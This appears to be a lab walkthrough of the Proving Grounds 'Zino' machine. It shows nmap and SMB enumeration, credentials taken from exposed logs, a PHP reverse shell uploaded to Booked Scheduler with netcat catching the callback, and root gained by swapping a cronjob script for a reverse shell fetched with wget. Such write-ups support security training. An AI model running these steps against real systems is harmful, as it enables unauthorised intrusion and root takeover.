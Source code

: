 ```yaml
---
layout: post
title: PG | Zino
subtitle: Good introduction to basic fundamentals.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 14:49 EDT
Nmap scan report for 192.168.182.64
Host is up (0.015s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b2:66:75:50:1b:18:f5:e9:9f:db:2c:d4:e3:95:7a:44 (RSA)
|   256 91:2d:26:f1:ba:af:d1:8b:69:8f:81:4a:32:af:9c:77 (ECDSA)
|_  256 ec:6f:df:8b:ce:19:13:8a:52:57:3e:72:a3:14:6f:40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open   !~-�U      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host '192.168.45.185' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=10/29%Time=653EA9A5%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.185'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.17 seconds
~~~

## SMB (TCP/139, 445)

SMB allows NULL session authentication and revealed a share named 'zino' which looks like a home directory of a user name zino
~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ smbclient -N -L //192.168.182.64

        Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP 
~~~

![Zino](/assets/img/ZinoPG(1).png)

I downloaded all files using SMBMap and auth.log revealed credentials for a user peter:chauthtok

![Zino](/assets/img/ZinoPG(2).png)

I attemped to connect to the target via SSH using the peter:peter credentials but it failed
~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ ssh peter@192.168.182.64                           
The authenticity of host '192.168.182.64 (192.168.182.64)' can't be established.
ED25519 key fingerprint is SHA256:WSNy24QYHepwi1q+CCZFt8/GTaVsrE60rmRaacEdSKE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.64' (ED25519) to the list of known hosts.
peter@192.168.182.64's password: 
Permission denied, please try again.
~~~

The misc.log file revealed credentials for a PHP session admin:adminadmin

![Zino](/assets/img/ZinoPG(3).png)

## HTTP (TCP/8003)

The web server on port 8003 is hosting a Booked Scheduler software, I entered the credentials found via SMB admin:adminadmin which granted me access

![Zino](/assets/img/ZinoPG(4).png)

I enumerated the website and found an upload parameter favicon.ico I was able to upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to and then navigate to and execute the reverse shell via /booked/Web/custom-favicon.php

![Zino](/assets/img/ZinoPG(5).png)

I started my netcat listener

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ nc -nvlp 21                                       
listening on [any] 21 ...
~~~

Executed the reverse shell

~~~shell
http://192.168.182.64:8003/booked/Web/custom-favicon.php
~~~

And recieved my initial foothold!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ nc -nvlp 21                                       
listening on [any] 21 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.64] 39390
Linux zino 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64 GNU/Linux
 16:08:14 up  1:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

# Privilege Escalation

I started Privilege Escalation enumeration by running linpeas and identified our user had write permissions over a file named cleanup.py that is run by root as a cronjob that runs every 3 minutes

![Zino](/assets/img/ZinoPG(6).png)

I created my own cleanup.py and included a python reverse shell

![Zino](/assets/img/ZinoPG(7).png)

I transferred the file to the target and replacing the existing /var/www/booked/cleanup.py

~~~shell
┌──(kali㉿kali)-[~/Desktop/Zino]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

$ cd /var/www/html/booked
$ wget http://192.168.45.185:139/cleanup.py
--2023-10-29 16:26:35--  http://192.168.45.185:139/cleanup.py
Connecting to 192.168.45.185:139... connected.
HTTP request sent, awaiting response... 200 OK
Length: 236 [text/x-python]
Saving to: 'cleanup.py.1'

     0K                                                       100% 82.1M=0s

2023-10-29 16:26:35 (82.1 MB/s) - 'cleanup.py.1' saved [236/236]
$ mv cleanup.py.1 cleanup.py
~~~

I then started my netcat listener on port 22

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 22               
listening on [any] 22 ...
~~~

Once the cronjob executed the reverse shell in cleanup.py I recieved a root shell!

~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 22               
listening on [any] 22 ...
connect to [192.168.45.185] from (UNKNOWN) [192.168.182.64] 60766
# whoami
whoami
root
# 
~~~